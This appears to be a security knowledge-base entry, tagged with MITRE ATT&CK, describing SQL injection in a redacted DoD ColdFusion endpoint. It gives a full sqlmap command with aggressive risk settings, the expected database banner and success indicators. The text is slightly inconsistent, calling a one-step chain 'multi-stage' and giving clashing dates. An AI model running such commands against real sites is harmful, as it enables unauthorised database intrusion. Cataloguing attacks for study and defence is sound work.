

---
tags:
  - sql-injection
  - sqli
  - sqlmap
  - database-compromise
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/sqlmap]]'
tactics:
  - '[[Initial Access]]'
commands:
  - '[[commands/sqlmap-detect-sqli-high-risk]]'
platforms:
  - Web
  - Windows
complexity: low
procedures:
  - '[[procedures/Detect-and-Confirm-SQL-Injection-with-sqlmap]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  A single-stage attack exploiting a SQL Injection vulnerability in the countID
  parameter of a ColdFusion-based DoD website endpoint, using sqlmap to confirm
  the flaw and retrieve database information, enabling potential full database
  control.
skill_level: intermediate
impact_level: high
id: 5ed911db-64c5-4009-a1a8-242a452a5667
created_at: '2025-12-14T03:15:05.023Z'
updated_at: '2025-12-14T03:15:05.023Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SQL Injection in countID Parameter Leading to Database Server Compromise on DoD Website

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/sqlmap]]

### Target Environment

- Web platform with ColdFusion backend
- Microsoft SQL Server 2008 R2 service
- Accessible HTTPS endpoint

### Initial Access Requirements

- Public network access to the target URL
- No credentials required (unauthenticated endpoint)
- Python environment for sqlmap

## Detailed Attack Procedures

### Step 1: Detect and Confirm SQL Injection
procedure: [[procedures/Detect-and-Confirm-SQL-Injection-with-sqlmap]]

**Objective**: Test the target endpoint for SQL Injection vulnerability in the countID parameter and retrieve database banner to confirm exploitation potential.

**Instructions**: Install and run sqlmap against the vulnerable URL with elevated detection levels to identify the SQLi flaw. Use the following command to initiate the test:

Execute [[commands/sqlmap-detect-sqli-high-risk]]:

```bash
python sqlmap.py -u https://www.██████████/public/saveCount.cfm?countID=4 --level=3 --risk=3
```

This command targets the specified URL, sets detection to level 3 for comprehensive payload testing, and risk to 3 for aggressive payloads that may disrupt the target.

**Expected Output**: sqlmap will detect the SQL Injection vulnerability and dump the database banner, such as "Microsoft SQL Server 2008 R2 (SP3) - 10.50.6220.0 (X64) Mar 19 2015 12:32:14 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows NT 6.3 <X64> (Build 9600: ) (Hypervisor)".

**Success Indicators**:
- Vulnerability confirmed as injectable
- Database type and version retrieved
- No errors in sqlmap output indicating failure

## Attack Chain Summary

### Key Achievements

1. Confirmed SQL Injection in unauthenticated public endpoint
2. Retrieved backend database details (MS SQL Server 2008 R2 on Windows NT 6.3)
3. Established path to full database control for data exfiltration or modification

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
